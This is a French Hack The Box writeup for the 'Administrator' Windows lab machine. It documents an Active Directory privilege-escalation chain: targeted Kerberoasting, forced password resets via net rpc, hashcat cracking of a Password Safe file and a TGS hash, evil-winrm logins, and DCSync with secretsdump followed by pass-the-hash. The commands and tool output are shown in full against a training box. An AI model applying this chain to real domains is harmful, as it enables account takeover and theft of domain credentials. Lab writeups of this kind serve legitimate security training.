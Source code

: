 ```yaml
---
title: Administrator - Windows Medium - HTB Writeup 
description:
slug: administrator-htb-writeup-windows-medium
date: 2025-04-19 00:00:00+0000
image: Administrator.PNG
categories:
    - Hack
    - Windows
    - Medium
tags:
    - ACL-based privileges
    - DCSync

# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


Si vous êtes familier avec les box windows, cette box est très simple car elle reprend des chemins d'exploitation classiques.
## Résumé
User: ACL-based privileges\
Root: ACL-based privileges, DCsync

## Enumeration
A l’aide d’un scan nmap, nous pouvons identifier que cette machine est un contrôleur de domaine Active Directory.
{{< highlight go "hl_lines=1" >}}
$ nmap -Pn -p- 10.10.11.42 -v
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
52649/tcp open  unknown
59626/tcp open  unknown
59631/tcp open  unknown
59638/tcp open  unknown
59643/tcp open  unknown
59655/tcp open  unknown
{{< /highlight >}}

On utilise `bloodhound-python` avec le compte fourni `Olivia:ichliebedich` afin de récupérer des informations concernant le domaine `administrator.htb` (qu'on ajoute à notre /etc/hosts).

Rapidement, nous identifions qu'il va falloir compromettre le compte d'Ethan pour DCSync et récupérer le hash du domain admin.
![](InitialBH.png)


## User
### GenericWrite, Olivia -> Michael

Afin de compromettre le compte d'Ethan, nous devons compromettre le compte d'Emily qui a les privilèges `GenericWrite` sur le compte d'Ethan.
![](PathtoEthan.png)
Comme on peut le voir il n'y a pas de chemin direct vers Emily depuis le compte de Olivia.
![](PathtoEmily.png)

On va se concentrer sur les accès qu'à notre user initial Olivia.\
Elle a les privilèges `GenericAll` sur Michael, on va donc procéder à une attaque ciblée kerberoast afin de récupérer son hash.\
Le hash ne pouvant pas être cracké, on va utiliser les privilèges d'Olivia pour forcer le changement du mot de passe de Michael.
{{< highlight go "hl_lines=1 5 6 9" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'olivia' -p 'ichliebedich'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (michael)
[+] Printing hash for (michael)
$krb5tgs$23$*michael$ADMINISTRATOR.HTB$administrator.htb/michael*$64da<...>d
[VERBOSE] SPN removed successfully for (michael)

$ net rpc password "michael" "michael_pass" -U "administrator.htb"/"olivia"%"ichliebedich" -S "administrator.htb"
{{< /highlight >}}

### ForceChangePassword, Michael -> Benjamin
En continuant notre énumération sur BH, on remarque que Michael peut changer le mot de passe de Benjamin.\
On utilise la même commande précédemment utilisée pour ce changement.
![](PathtoBenjamin.png)
{{< highlight go "hl_lines=1" >}}
$ net rpc password "benjamin" "benjamin_pass" -U "administrator.htb"/"michael"%"michael_pass" -S "administrator.htb"
{{< /highlight >}}

Benjamin fait partie du groupe `SHARE MODERATORS`.
![](BenjaminGroup.png)
On ne découvre rien d'intéressant sur les shares SMB mais, sur le FTP on trouve `Backup.psafe3` que l'on récupère et dont on crack le mot de passe avec hashcat.

### FTP et Backup.psafe3
{{< highlight go "hl_lines=1 6 8 18 32" >}}
$ ftp benjamin@10.10.11.42
<...>
ftp> ls
229 Entering Extended Passive Mode (|||50350|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> mget backup.psafe3
mget Backup.psafe3 [anpqy?]? yes
229 Entering Extended Passive Mode (|||50354|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952       56.85 KiB/s    00:00 ETA
226 Transfer complete.
<...>
ftp> exit
221 Goodbye.

$ hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
<...>
Backup.psafe3:<...>                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Sat Apr 19 20:18:43 2025 (1 sec)
Time.Estimated...: Sat Apr 19 20:18:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    23899 H/s (6.93ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 60%

Started: Sat Apr 19 20:18:42 2025
Stopped: Sat Apr 19 20:18:45 2025
{{< /highlight >}}

On utilise ce mot de passe pour ouvrir le fichier avec `pwsafe` et on récupère le mot de passe d'Emily.
{{< highlight go "hl_lines=1" >}}
$ pwsafe Backup.psafe3
{{< /highlight >}}
![](pwsafe.PNG)

On constate dans BH qu'Emily peut accéder à la machine, on s'y connecte avec `evil-winrm` pour récupérer le ```user.txt```.\
![](PSRemoteEmily.PNG)
{{< highlight go "hl_lines=1 8" >}}
$ evil-winrm -i 10.10.11.42 -u emily -p U<...>b
<...>
*Evil-WinRM* PS C:\Users\emily\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/19/2025   3:02 PM             34 user.txt
{{< /highlight >}}
![](pwsafe.PNG)

## Root
### GenericWrite, Emily -> Ethan

Comme vu précédemment, Emily a les privilèges `GenericWrite` sur le compte d'Ethan et Ethan peut DCsync.\
On va d'abord récupérer le hash d'Ethan et le cracker avec hashcat.
![](EmilytoEthan.PNG)
{{< highlight go "hl_lines=1 6 9 23" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'U<...>b'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7
[VERBOSE] SPN removed successfully for (ethan)

$ hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
<...>
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7:l<...>t
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....9cb327
Time.Started.....: Sat Apr 19 20:39:25 2025 (0 secs)
Time.Estimated...: Sat Apr 19 20:39:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   641.4 kH/s (0.52ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 71%

Started: Sat Apr 19 20:39:24 2025
Stopped: Sat Apr 19 20:39:27 2025
{{< /highlight >}}

### DCSync
Puis, on peut effectuer un DCsync avec le mot de passe obtenu en utilisant `secretsdump`.
![](EthantoDC.PNG)
{{< highlight go "hl_lines=1 3" >}}
$ ./secretsdump.py 'administrator.htb'/'ethan':'l<...>t'@'administrator.htb'
<...>
Administrator:500:a<...>e>:3<...>e:::
<...>
[*] Cleaning up...
{{< /highlight >}}

On peut maintenant utiliser `evil-winrm` pour se connecter au DC avec le NTHASH de l'admin.
{{< highlight go "hl_lines=1 7" >}}
$ evil-winrm -i 10.10.11.42 -u administrator -H 3<...>e
<...>
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/19/2025   6:52 PM             34 root.txt
{{< /highlight >}}
